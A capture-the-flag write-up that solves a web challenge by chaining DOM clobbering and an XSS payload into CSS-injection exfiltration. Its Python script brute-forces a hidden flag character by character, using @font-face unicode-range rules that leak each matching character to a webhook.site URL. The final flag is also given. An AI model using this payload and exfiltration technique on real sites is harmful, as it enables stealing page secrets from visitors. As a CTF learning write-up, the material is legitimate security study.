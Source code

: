 # Cascade Chaos Revenge

Solved by: @vicevirus

## Question:
You thought you had it figured out. Last time, you exploited the system and claimed victory, but they've been watching. Now, the defenses are stronger, and they've patched the easy routes. But you know how to find the cracks. Time to prove you can break through, and the revenge flag is yours.

## Solution:
Similar to the previous challenge, there's a possibility DOM clobber to XSS in remote service

Can manipulate `window.name` to achieve css injection exfiltration through `font-face`.
```
}@font-face {
    font-family: testChar;
    src: url(https://webhookurl/?char=f);
    unicode-range: U+0066;
} /* Unicode for character 'f' */
.flag span:nth-child(1) {
    font-family: testChar, sans-serif;
}
```


Bruteforce the characters using unicode range + nth.child

```
import requests
import string
import time

# Set up the headers
headers = {
    'Host': '35.224.222.30:4001',
    'Accept-Language': 'en-GB,en;q=0.9',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'http://35.224.222.30:4001',
    'Referer': 'http://35.224.222.30:4001/convert',
    'Connection': 'keep-alive',
}

# Webhook URL
webhook_url = "https://webhook.site/bfb7ca18-de82-40ce-8bb2-930d503363d4"

# Function to send the payload for each character individually
def brute_force_chars():
    # for char in  "}": 
    for char in  string.ascii_letters:# Loop through all lowercase ASCII letters
        char_code = ord(char)
        payload = (
            "<p><img src='x' onerror=\"window.name='Flag';"
            "location.href='http://local:4003/flag?color=white;"
            "}@font-face {font-family:testChar;"
            f"src:url({webhook_url}?char={char}); unicode-range:U%2b{char_code:04X};"
            "/* Unicode for character */}.flag span:nth-child(27) {font-family:testChar, sans-serif;}" + "}'\"></p>"
        )

        json_data = {
            'content': payload,
            'heading': '<a id="isSafe"></a>',
        }

        try:
            response = requests.post('http://35.224.222.30:4004/visit', headers=headers, json=json_data, verify=False)
            print(f"Sent payload for character: {char}, Response: {response.status_code}")
        except Exception as e:
            print(f"Error sending payload for character: {char}: {e}")
        
        time.sleep(15)  # Wait for 5 seconds before sending the next request

# Start the brute force process for each character
brute_force_chars()
```

**Flag:** `flag{ah_y0u_go7_me_ag41n11}`
